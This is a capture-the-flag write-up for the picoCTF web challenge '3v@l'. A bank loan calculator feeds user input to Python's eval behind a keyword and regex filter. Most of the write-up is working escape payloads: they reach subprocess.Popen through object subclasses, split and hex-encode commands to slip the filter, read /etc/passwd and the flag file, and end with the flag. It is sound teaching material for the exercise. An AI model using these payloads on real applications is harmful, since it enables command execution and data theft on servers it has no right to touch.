






## 3v@l
 

**Description**
ABC Bank's website has a loan calculator to help its clients calculate the amount they pay if they take a loan from the bank. Unfortunately, they are using an eval function to calculate the loan. Bypassing this will give you Remote Code Execution (RCE). Can you exploit the bank's calculator and read the flag?

**Write-up**

Web app call's python 

To "prevent" remote code execution app implements a filter.

The filter is actually described in the page source.

The direct use of the following words is forbidden: os,eval,exec,bind,connect,python,socket,ls,cat,shell,bind

Additionally a regex filter is also implemented.

Obtained reference to `subprocess.Popen` method.
`''.__class__.__base__.__subclasses__()`

Attempted code execution, however "cat" keyword is filtered in the method "communiCATe".
`''.__class__.__base__.__subclasses__()[356]('cat /etc/passwd', shell=True, stdout=-1).communicate()`

After playing around for a bit came with this payload that managed to execute.
`''.__class__.__base__.__subclasses__()[356]('l'+'s', stdout=-1).stdout.readline()`

Certain commands will fail because of the regex, such as slashes, dots and similar.

Converting the actual command to hex and then converting it back to string with `bytes.fromhex` solves the problem:
`''.__class__.__base__.__subclasses__()[356]([bytes.fromhex("6c73").decode('utf-8'), '-la'] , stdout=-1).stdout.read()`

Finding flag:
`''.__class__.__base__.__subclasses__()[356]([bytes.fromhex("636174").decode('utf-8'), bytes.fromhex("2e2e").decode('utf-8')] , stdout=-1).stdout.read()`

Reading flag:
`''.__class__.__base__.__subclasses__()[356]([bytes.fromhex("636174").decode('utf-8'), bytes.fromhex("2e2e2f666c61672e747874").decode('utf-8')] , stdout=-1).stdout.read()`

**Solution**

Flag: picoCTF{D0nt_Use_Unsecure_f@nctions6adf3843}

[back](/index)